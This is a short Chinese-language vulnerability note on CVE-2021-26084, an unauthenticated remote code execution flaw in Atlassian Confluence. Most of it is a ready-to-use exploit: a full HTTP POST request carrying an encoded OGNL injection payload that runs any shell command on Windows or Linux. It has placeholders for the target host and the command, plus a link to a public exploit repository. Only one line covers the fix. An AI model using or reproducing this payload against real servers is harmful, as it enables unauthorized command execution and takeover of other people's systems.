

### 一 漏洞描述
Atlassian Confluence是Atlassian公司出品的专业的企业知识管理与协同软件，可用于构建企业文库等。2021年8月26日Atlassian官方发布公告，披露了CVE-2021-26084 Atlassian Confluence 远程代码执行漏洞。2021年8月31日，互联网上公开了相关漏洞利用脚本，攻击者可在无需登录的情况下构造恶意请求，执行任意代码，控制服务器。

### 二 漏洞利用
```
POST /pages/createpage-entervariables.action?SpaceKey=x HTTP/1.1
Host: {漏洞目标}
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/537.36 (KHTML like Gecko) Chrome/44.0.2403.155 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Type: application/x-www-form-urlencoded
Cookie: JSESSIONID=A907F59BAEEDC09A0E0644DD4CB82B73
Content-Length: 1095

queryString=aaaaaaaa%5Cu0027%2B%7BClass.forName%28%5Cu0027javax.script.ScriptEngineManager%5Cu0027%29.newInstance%28%29.getEngineByName%28%5Cu0027JavaScript%5Cu0027%29.%5Cu0065val%28%5Cu0027var+isWin+%3D+java.lang.System.getProperty%28%5Cu0022os.name%5Cu0022%29.toLowerCase%28%29.contains%28%5Cu0022win%5Cu0022%29%3B+var+cmd+%3D+new+java.lang.String%28%5Cu0022{待执行命令}%5Cu0022%29%3Bvar+p+%3D+new+java.lang.ProcessBuilder%28%29%3B+if%28isWin%29%7Bp.command%28%5Cu0022cmd.exe%5Cu0022%2C+%5Cu0022%2Fc%5Cu0022%2C+cmd%29%3B+%7D+else%7Bp.command%28%5Cu0022bash%5Cu0022%2C+%5Cu0022-c%5Cu0022%2C+cmd%29%3B+%7Dp.redirectErrorStream%28true%29%3B+var+process%3D+p.start%28%29%3B+var+inputStreamReader+%3D+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3B+var+bufferedReader+%3D+new+java.io.BufferedReader%28inputStreamReader%29%3B+var+line+%3D+%5Cu0022%5Cu0022%3B+var+output+%3D+%5Cu0022%5Cu0022%3B+while%28%28line+%3D+bufferedReader.readLine%28%29%29+%21%3D+null%29%7Boutput+%3D+output+%2B+line+%2B+java.lang.Character.toString%2810%29%3B+%7D%5Cu0027%29%7D%2B%5Cu0027
```
替换上述的{漏洞目标}和{待执行命令}(如ping+666.xxxxxx.dnslog.cn)



### 三 漏洞修复
升级Confluence版本到安全版本以上

> 参考链接  
> http://blog.nsfocus.net/atlassian-confluence/
> exp: https://github.com/h3v0x/CVE-2021-26084_Confluence  
